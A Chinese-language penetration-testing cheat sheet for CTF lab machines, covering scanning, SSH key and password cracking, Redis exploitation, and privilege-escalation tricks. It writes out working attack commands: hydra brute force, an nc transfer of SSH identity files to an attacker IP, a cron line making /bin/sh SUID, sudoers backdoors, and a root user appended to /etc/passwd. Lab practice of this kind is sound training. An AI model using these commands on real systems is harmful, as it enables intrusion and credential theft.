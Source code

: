 靶机常见思路

## **windows传文件**
通过scp通过ssh传fscan到linux
```
scp -P 28308 fscan32 ctfshow@pwn.challenge.ctf.show:/tmp
-P 端口
```

## **nmap**
nmap -sC -A -T 4 -n -p- 10.10.10.171
nmap参数：
-sC    根据端口识别的服务，调用默认脚本
-A     OS识别,版本探测，脚本扫描和traceroute
-T（0-5）时间优化
-n/-R   不对IP进行域名反向解析/为所有的IP都进行域名的反响解析
-p- 扫描所有端口
## **searchsploit**
searchsploit 是一个命令行搜索 exp 的工具，可以直接在 kali 终端中搜 exp，使用空格来区分关键词
例如：searchsploit opennetadmin
加上 -m 可以把 exp 复制到当前目录
netstat
netstat 各个参数解释
-a (all)显示所有选项，默认不显示LISTEN相关
-t (tcp)仅显示tcp相关选项
-u (udp)仅显示udp相关选项
-n 拒绝显示别名，能显示数字的全部转化成数字
-l 仅列出有在 Listen (监听) 的服務状态
-p 显示建立相关链接的程序名
-r 显示路由信息，路由表
-e 显示扩展信息，例如uid等
-s 按各个协议进行统计
-c 每隔一个固定时间，执行该netstat命令
## **ssh相关**
**john爆破密钥密码**
用户将自己的公钥存储在远程主机上面，登陆的时候远程主机会向用户发送一段随机字符串，用户用私钥加密之后再将加密后的发送给主机，如果主机能够用公钥解密成功则可以连接
如果能查看密钥的话可以保存下来，然后用密钥去连接，如果密钥有密码的话，可以使用 ssh2john.py 先转换成 john 格式
python /usr/share/john/ssh2john.py mi > sshjohn
然后使用 john 爆破一下
john --wordlist=/usr/share/wordlists/rockyou.txt sshjohn   使用 john 爆破 --wordlist 指定字典
john 工具对于同一个 shadow 文件只会进行一次爆破，如果第二次执行 john shadow 是不会得到结果的
如果想查看上一次爆破的结果，可以加上个 --show
**hydra爆破ssh**
hydra -l jim -w 10 -P 1.txt -t 10 -v -f 192.168.149.160 ssh
-l jim              指定爆破账号为 jim
-L user.txt       指定用户名字典为 user.txt
-w 10             设置最大超时时间10s，默认30s
-P pwd.txt      指定密码字典为 pwd.txt
-t 10               指定爆破线程为 10 个
-v                   指定显示爆破过程
-f                    查找到第一个可以使用的账号和密码的时候停止破解
**authorized_keys**
authorized_keys，里面实际放的就是客户机的公钥，只要公钥在这里面，这个客户机就不用使用密码就能登录
一开始 ubuntu 中没有这个文件
wsl 用 ssh 登录是需要密码的
如果我把 wsl 的公钥拷出来，放到 ubuntu 用户 yichen 的 .ssh 下 authorized_keys 中，那么将不再需要密码
那么，如果有权限，可以把自己生成的公钥拷到用户的 authorized_keys 中，那么就可以直接 ssh 登录到这个用户
（那个靶机是允许执行另一个用户的 cp 命令，然后拷贝公钥到 .ssh/authorized_keys，再登录。但感觉实际用不到，会有这么用的？也许吧😄）
## **sudo -l**
sudo -l 可以列出当前用户可以执行哪一些指令，如果有 NOPASSWD 的，就是不需要密码就能使用 sudo 的
例如，php 是不用密码就能使用 sudo 的，那么可以写一个 php 脚本 <?php system('/bin/sh'); ?>，然后一执行就能拿到 root 权限
还有很多软件可以具体找一下他们怎么能开一个 shell，sudo 打开就是 root
## **redis未授权访问**
关于 redis 核心利用点是，通过没有身份校验的 redis 服务进行登陆，同时指定 config dir 和 config dbfilename 的路径与名称，达到把本地公钥存储到远程服务器上，这时候在通过 ssh 进行远程登陆。可以获得名为 redis 的 shell
有个利用脚本
<https://github.com/Avinash-acid/Redis-Server-Exploit>
## **python交互式终端**
一般打开的 shell，只有一个 $ 符号，通过这个能好看一下
python -c "import pty;pty.spawn('/bin/bash')"
## **从靶机上拷出东西来**
(如果有 web 服务的话，直接拷到 web 目录，然后下载应该也可以吧)
攻击机新开一个终端，nc -lvp 10001 >backup-ssh-identity-files.tgz 用来接收那个压缩包文件
靶机 shell 里面使用 nc 10.10.15.84 10001 < backup-ssh-identity-files.tgz
## **rbash逃逸**
rbash 会限制一些命令没法用，参考：https://xz.aliyun.com/t/7642
## **whatweb**
一个命令行下识别 cms 的工具
## **docker相关**
挂载目录：加参数 -v /root/:/root/
在这个靶机中拿到用户权限之后可以对 docker 进行操作，而 docker 进去是 root 权限的，docker 挂载上靶机的 root 目录之后就可以 root 权限对 /root 目录进行操作了
当你能root权限写文件
## **写linux计划任务**
cron 的默认配置文件是 /etc/cronted，#开头的是注释，不会被处理
然后上面的内容是来设置 cron 的运行环境的
* 表示任意的数，即每分钟、每小时、每天...
如果有编辑文件的软件（比如 teehee）是 root 权限运行的话可以写 * * * * * root chmod 4777 /bin/sh 进去，等个一分钟就能获得一个 root 权限的 shell
## **写/etc/sudoers**
这个东西的作用是当用户执行 sudo 的时候，会先到这里面去找，如果发现用户有 sudo 的权限就能直接以 root 的权限来执行命令
文件内容公式：授权用户/组 主机=[(切换到哪些用户或组)] [是否需要输入密码验证] 命令1,命令2...
那么可以往里写 yichen ALL=(ALL:ALL) ALL 这样 yichen 就能通过 sudo 来执行 root 权限
又或者 peter 可以不使用密码用 sudo 执行任何命令 peter ALL=(ALL) NOPASSWD: ALL
## **写/etc/passwd**
首先要生成 hash
openssl passwd -1 -salt yichen 123456
用户名：yichen，密码：123456
echo 'yichen:$1$yichen$6nzFZVX5T21iu2AmBgzin/:0:0:yichen:/root:/bin/bash' >> /etc/passwd
然后 su yichen，输入密码：123456 就拿到 root 权限了
## **重要/敏感文件**
**nginx**
配置文件存放目录：/etc/nginx
主配置文件：/etc/nginx/conf/nginx.conf 或 /etc/nginx/nginx.conf
管理脚本：/usr/lib64/systemd/system/nginx.service
模块：/usr/lisb64/nginx/modules
应用程序：/usr/sbin/nginx
程序默认存放位置：/usr/share/nginx/html
日志默认存放位置：/var/log/nginx
